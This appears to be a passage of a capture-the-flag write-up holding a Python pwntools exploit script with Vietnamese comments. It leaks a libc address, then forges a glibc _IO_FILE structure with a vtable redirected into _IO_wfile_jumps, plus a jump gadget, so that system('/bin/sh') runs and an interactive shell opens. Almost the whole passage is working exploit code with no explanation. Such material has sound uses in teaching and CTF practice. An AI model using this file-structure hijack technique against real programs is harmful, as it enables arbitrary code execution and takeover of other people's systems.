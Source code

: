 ```python=
    p = process([exe.path])
GDB()

ru(b'foundation: ')
stdout = int(rl(),16)
libc.address = stdout - 0x21a780
info("BSS leak: "+hex(stdout))
info("Libc base: "+hex(libc.address))
sys = libc.sym.system
shell = next(libc.search(b"/bin/sh\x00"))
bis = u64(b'/bin/sh\0')

# puts->_IO_wfile_underflow->__libio_codecvt_in
vta = libc.sym._IO_wfile_jumps - 0x18 # IO_wfile_underflow
lock = libc.address+0x219900
gad = libc.address + 0x0000000000163830 # add rdi, 0x10; jmp rcx;

IOfile = flat(
    0x3b01010101010101,         # 0x00      0       - Ghi đè `_flags`
    p64(0),                     # 0x08      8       - `_IO_read_ptr`
    p64(sys),                   # 0x10      16      - `_IO_read_end`
    p64(0),                     # 0x18      24      - `_IO_read_base`
    p64(0),                     # 0x20      32      - `_IO_write_base`
    p64(bis),                   # 0x28      40      - `_IO_write_ptr`
    p64(0),                     # 0x30      48      - `_IO_write_end`
    p64(0),                     # 0x38      56      - `_IO_buf_base`
    p64(gad),                   # 0x40      64      - `_IO_buf_end`
    p64(0),                     # 0x48      72      - `_IO_save_base`
    p64(0),                     # 0x50      80      - `_IO_backup_base`
    p64(0),                     # 0x58      88      - `_IO_save_end`
    p64(0),                     # 0x60      96      - `_markers`
    p64(0),                     # 0x68      104     - `_chain`,
    p64(0),                     # 0x70      112     - `_flagno`
    p64(0),                     # 0x78      120     - `_flags2`
    p64(0),                     # 0x80      128     - `_old_offset`
    p64(lock),                  # 0x88      136     - `_lock`
    p64(0),                     # 0x90      144     - `_unused1`
    p64(stdout+168),            # 0x98      152     - `_codecvt
    p64(0),                     # 0xa0      160     - `_wide_data`
    p64(stdout+24),             # 0xa8      168     - `unknown2`
    p64(0),                     # 0xb0      176     - `_unused5`
    p64(0),                     # 0xb8      184     - `_unused6`
    p64(0),                     # 0xc0      192     - `_unused7`
    p64(0),                     # 0xc8      200     - `_unused8`
    p64(0),                     # 0xd0      208     - `_unused9`
    p64(vta),                   # 0xd8      216     - `vtable`
)

s(IOfile)

p.interactive()
```

